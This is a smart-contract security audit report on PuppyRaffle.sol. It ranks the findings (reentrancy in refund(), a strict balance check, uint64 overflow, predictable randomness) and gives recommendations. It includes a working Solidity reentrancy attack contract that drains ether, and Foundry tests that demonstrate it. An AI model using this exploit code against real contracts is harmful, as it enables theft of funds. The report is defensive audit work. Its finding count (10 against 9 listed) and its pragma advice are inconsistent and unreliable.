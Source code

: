 ## Summary

The PuppyRaffle.sol contract has undergone a comprehensive security audit, revealing a total of 10 vulnerabilities. These vulnerabilities have been classified into different severity levels to provide a more detailed understanding of their impact.

High Severity Issues (2): These are critical vulnerabilities that demand immediate attention. Addressing these problems is vital to ensuring the contract's security and integrity.

Medium Severity Findings (2): While not as severe as the high-risk issues, these findings still pose a substantial level of risk and should be prioritized for resolution.

Low Risk and Non-Critical Findings (5): These issues are relatively less critical but are worth addressing to maintain robust security practices and prevent potential future vulnerabilities.

This detailed breakdown of vulnerabilities allows a better assessment of the contract's overall security posture. It emphasizes the importance of addressing high and medium-risk issues promptly while also considering the low-risk findings to enhance the contract's long-term security and stability.

## Vulnerability Details

### High-Risk Issues

1. Reentrancy: The function refund() is prone to reentrancy attack. The Function didn't conform to the Check->Effect->Interaction rule, this action can lead to a reentracy attack. The state variable of players[playerIndex] = address(0), will be updated after the ether has been refunded. An attacker can reenter this function.
   The Proof of concept is below.

### POC

**Contract**

    // SPDX-License-Identifier: SEE LICENSE IN LICENSE
    pragma solidity 0.7.6;
    import "../src/PuppyRaffle.sol";

    contract AttackRaffle {
    PuppyRaffle immutable puppyraffle;

        address public immutable owner;
        uint256 myIndex;

        constructor(address _contractAddress) {
            owner = payable(msg.sender);
            puppyraffle = PuppyRaffle(_contractAddress);
        }

        function destroy(address _puppyContract) external {
            selfdestruct(payable(_puppyContract));
        }

        function playGame(uint256 entranceFee) external payable {
            // start by playing the game.
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyraffle.enterRaffle{value: entranceFee}(players);

            // then the main attack which is the refund function.
            myIndex = puppyraffle.getActivePlayerIndex(address(this));
            puppyraffle.refund(myIndex);
        }

        receive() external payable {
            if (address(puppyraffle).balance > 0) {
                myIndex = puppyraffle.getActivePlayerIndex(address(this));
                puppyraffle.refund(myIndex);
            } else {
                (bool success, ) = (owner).call{value: address(this).balance}("");
                if (!success) revert("Failed Transaction");
            }
        }
    }

**Test**

    function test_reenterancy_attack() external {
        // function that allow players enter the game
        testCanEnterRaffleMany();

        // The attack
        address owner = address(23);
        vm.prank(owner);
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 ether);
        console.log(
            "Owner of the Attack Contract balance before the game",
            owner.balance
        );
        console.log(
            "puppyRaffle Contract's balance before contract entered the game",
            address(puppyRaffle).balance
        );
        vm.startPrank(address(attackRaffle));
        attackRaffle.playGame(entranceFee);
        console.log(
            "Owner of the Attack Contract balance after the game",
            attackRaffle.owner().balance
        );

        console.log(
            "puppyRaffle Contract's balance after the game",
            address(puppyRaffle).balance
        );
        vm.stopPrank();
    }

2. The use of strict operator: The function withdrawFees has a strict operation of ==, which can lead to a high vulnerability, when an addition wei or ether is sent to this contract, address(this).balance can never be equal to totalFees. Ether can not be withdrew to the feeAddress.

### POC

**Contract**

        function destroy(address \_puppyContract) external {
            selfdestruct(payable(\_puppyContract));
        }

This is a snippet from the above contract AttactPuppyRaffle.

**Test**

    function test_withdraw_attack() external {
        // function that select winner
        testSelectWinner();

        // The attack
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 wei);
        vm.startPrank(address(attackRaffle));
        attackRaffle.destroy(address(puppyRaffle));

        puppyRaffle.withdrawFees();
        vm.stopPrank();
    }

**NOTE** All the test functions can be added to the PuppyRaffleTest file because testSelectWinner() and testCanEnterRaffleMany() are functions from the file.

### Medium Issue

1. In the function selectWinner(), If at any point in the raffle, the total fee exceeds 18.45 ether there will be an overflow and the totalfee will not be represented well. Why? Because the totalFee was stored with uint64 and the max for uint64 is 18,446,744,073,709,551,615.
2. The winner is deterministic. The use of msg.sender, block.timestamp, block.difficulty and player. length is very predictable especially to the miner.

### Low Issue

1. The was no check for zero address in the contructor, the feeAddress can be deployed with address(0), though it can be changed but it is not best practise.
2. The use of custom errors is the most optimal way for calling error.
3. The was no proper check on the array length on enterRaffle(), this could lead to a DOS attack on the system. The address were not also check if address(0) will be mistakenly included.
4. Unlocked pragma (for e.g. by not using ^ in pragma solidity 0.7.6) can lead the contract to accidentally get deployed using an older compiler version with unfixed bugs
5. Lastly, in gas optimization, it is better to save the length of the array before looping, this helps save gas.

## Impact

1. Reenterancy can lead to loss of the ether in the contract.
2. Strict operators can also lead to loss of ether from the contract.
3. In the function selectWinner() if at any point in the raffle the totalfee exeeds 18.45 ether there will be overflow, loss of funds.
4. The winner to the easy predictable or deterministic undermines the transparency and accountability of the contract
5. Zero checks on address can lead to loss of funds
6. The no proper check on the array length on enterRaffle() can lead to a DOS attack

## Tools Used

Manual Audit

## Recommendations

1. For the reenterancy, it is best practice to always apply the check->effect->interaction.
2. Also make use of a reenterancy lock or modifier to help secure the contract, Openzeppline offers good reenterncy guide.
3. Avoid the use of strict operators
4. Proper address Check
5. Instead of uint64 for the totalFee it is best you use uint256
6. It best to use a more secure and reliably random selection, Chainlink offers a good service on that.
7. The Contract should be deployed using the same compiler version/flags with which they have been tested. Locking the pragma (for e.g. by not using ^ in pragma solidity 0.7.6) ensures that contract do not accidentally get deployed using an older compiler version with unfixed bugs.
